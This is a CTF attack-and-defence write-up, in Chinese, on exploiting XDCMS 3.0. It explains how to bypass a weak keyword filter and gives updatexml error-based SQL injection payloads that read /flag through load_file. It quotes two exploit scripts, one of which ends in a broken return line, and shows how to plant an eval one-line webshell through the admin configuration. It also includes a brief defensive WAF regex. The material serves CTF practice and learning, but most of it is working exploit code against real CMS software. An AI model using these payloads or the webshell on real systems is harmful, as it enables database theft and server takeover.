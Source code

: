 # bugkuAWD-18-xdcms

## sql注入

一开始上来没有🐎, 然后是xdcms 3.0, 主要围绕一个 sql 注入展开攻击

```php
function safe_html($str){
    if(empty($str)){return;}
    $str=preg_replace('/select|insert | update | and | in | on | left | joins | delete |%|=|\/*|*|\.\.\/|\.\/| union | from | where | group | into |load_file
|outfile/','',$str);
    return htmlspecialchars($str);
}
```

这个 waf 只过滤了函数但是没有考虑大小写, 导致过滤字符可通过大小写转换或双写进行绕过, mysql 给的是 root 权限, 主要是在 `index.php?m=xdcms&c=login&f=check` 这个路径攻击, 验证码需要每次刷新

```
username=ss' or upDatexml(1,concat(0x7e,select load_file('/flag')),1)#&password=admin&verifycode=bd3d&button=
username=ss' or upDatexml(1,concat(0x7e,select reverse(load_file('/flag'))),1)#&password=admin&verifycode=bd3d&button=
```

payload1

![20210605205757417](D:\safetool\Tools\Web2\github\Rickyweb\bugkuAWD\img\20210605205757417.png)

payload2

![20210605205818975](D:\safetool\Tools\Web2\github\Rickyweb\bugkuAWD\img\20210605205818975.png)

然后就是在友链的地方(`system/modules/link/admin.php`)也是调用的这个函数 safe_html()

### 预防方法

写个简单的waf防御

```php
$check=preg_match('/[\s]*(select|insert|update|delete)\s|\s(and|or|in|on|left|value|concat|join|like|regexp|where|union|into)\s|\#|\'|\\*|\*|\.\.\/|\.\/|load_file|outfile|dumpfile/i',$str);
    if ($check) {
        echo '<script language="JavaScript">alert("Warnning!!\r\n' . $str . ' is invalid.");</script>';
        exit();
    }
```

或者访问 `/admin` 直接重定向回原界面, 不让对方访问(只是能限制这个口)

或者开个监听(监听里面自带waf防御)

**github上的利用脚本**

```python
#!/usr/bin/env python
# -*- coding: utf-8 -*-
#__Author__ = LinE
#_PlugName_ = XDCMS SQL injection
#_Function_ = XDCMS SQL注射
#_FileName_ = XDCMS_SQL_injection.py


def assign(service, arg):
    if service == "xdcms":
        return True, arg


def audit(arg):
    import urllib
    target = "index.php?m=member&f=register_save"
    data = {
        "username": "sss' And 1 like(updAtexml(1,concat(0x5e24,(Select concat(md5(123),0x3a,0x3a)),0x5e24),1))#",
        "password": "123456",
        "password2": "123456",
        "fields[truename]": "",
        "fileds[email]": "",
        "submit": " ? ? "
    }
    payload = urllib.urlencode(data)

    code, head, res, errcode, _ = curl.curl('-d %s %s' % (payload, target))
    if code == 200 and "ac59075b964b0715" in res:
            security_hole(_)


def getString(String):
    import re
    Temp = re.search("(?<=<h2>).+(?=</h2>)", String).group(0)
    return Temp

if __name__ == '__main__':
    from dummy import *
    audit(assign('xdcms', 'http://www.example.com')[1])
```

**夜师傅的脚本(针对bugku框架写的)**

```python
class Payload(object):
    challenge = 'web1'  # only send payload to challenge with this challenge
    once = True  # TODO

    @staticmethod
    def run(ip: str) -> str:
        """
        send the payload to ``ip`` and return the text which contains flag
        :param ip:
        :return:
        """
        import requests
        import re
        session = requests.session()

        burp0_url = f"http://{ip}/index.php?m=member&f=login_save"
        burp0_cookies = {"PHPSESSID": "mdl8f38vkvnmdm6eokcm7l9573"}
        burp0_headers = {"POST http": "/192-168-1-131.awd.bugku.cn/index.php?m=member&f=login_save HTTP/1.1",
                         "Cache-Control": "max-age=0", "Upgrade-Insecure-Requests": "1",
                         "Origin": "http://192-168-1-131.awd.bugku.cn",
                         "Content-Type": "application/x-www-form-urlencoded",
                         "User-Agent": "Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/91.0.4472.77 Safari/537.36",
                         "Accept": "text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9",
                         "Referer": "http://192-168-1-131.awd.bugku.cn/index.php?m=member&f=register",
                         "Accept-Encoding": "gzip, deflate", "Accept-Language": "zh-CN,zh;q=0.9", "Connection": "close"}
        burp0_data1 = {"username": "ss' or updatexml(1,concat(0x7e,select substr(load_file('/flag'),21,18),0x7e),1)#",
                       "password": "admin", "submit": " \xe7\x99\xbb \xe5\xbd\x95 "}
        burp0_data = {"username": "ss' or updatexml(1,concat(0x7e,select substr(load_file('/flag'),1,20),0x7e),1)#",
                      "password": "admin", "submit": " \xe7\x99\xbb \xe5\xbd\x95 "}

        res = session.post(burp0_url, headers=burp0_headers, cookies=burp0_cookies, data=burp0_data, timeout=2)
        res1 = session.post(burp0_url, headers=burp0_headers, cookies=burp0_cookies, data=burp0_data1, timeout=2)
        shi = re.compile('~(.*?)~', re.S)
        flag1 = re.findall(shi, res.text)[0]
        flag2 = re.findall(shi, res1.text)[0]
        flag = flag1 + flag2
        # print(flag)
        return flags
```

## 后台后门利用

xdcms后台网站配置基本信息的网站路径处过滤不严，仍可以插一句话拿shell。

前提 magic_quotes_gpc=Off

进后台，在基本信息中的网站路径处添加一句话，因为尖括号被转码，但是可以添加花括号型的一句话，${eval($_POST['rua'])}。

 一句话写入在/system/xdcms.inc.php中。

**或者后台修改上传文件配置**

